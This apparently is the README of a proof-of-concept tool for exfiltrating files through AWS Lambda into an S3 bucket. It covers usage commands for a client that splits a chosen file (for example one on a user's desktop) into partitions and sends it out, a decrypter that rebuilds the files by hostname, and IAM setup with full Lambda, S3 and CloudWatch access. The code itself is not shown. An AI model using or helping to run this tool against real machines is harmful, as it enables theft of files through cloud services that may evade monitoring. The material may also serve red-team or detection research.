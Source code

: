 # AWS Lambda Exfil Tool [PoC]

Here we have a small PoC on how the program works  

![StandaloneClientGif](media/standaloneClient.gif)

## About
The program follows the following diagram. Explanation on how each part functions is present on standaloneClient pdf file.  

![StandaloneClient diagram](media/Standalone_client_1.png?raw=true "Standalone Client Diagram")


## Usage
#### Client
`py clientName.py -s <Partition size in kb> -i <File to exfiltrate>`  
Example:  
`py clientName.py -s 100 -i "C:\Users\SomeUser\Desktop\test.txt"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket after exfiltration
`py decrypter.py -n "Hostname" -i "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py -n "ID4A0E" -i "test"`

Follow the prompts for decrypter setup, this will set AWS keys as well as region and bucket name.  
Decrypter setup is based on `decrypterConfig.json` (Which will be created after the first time decrypter is ran).  
If AWS account / bucket needs to be changed, please modify the above mentioned json file.

## Setup

###### Note: Use python 3.x  

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

###### Run `pip install -r requirements.txt`

###### Run `py setup.py` and follow the prompts for client setup

###### Decrypter will be set up the first time it's ran, follow the prompts

#### Partitions
Please take in account the size of the file to be exfiltrated when defining the partition size.

#### Supported Files
The tool supports txt, csv and xlsx files but every file that is text based (For example a .py file) will be exfiltrated succesfully.
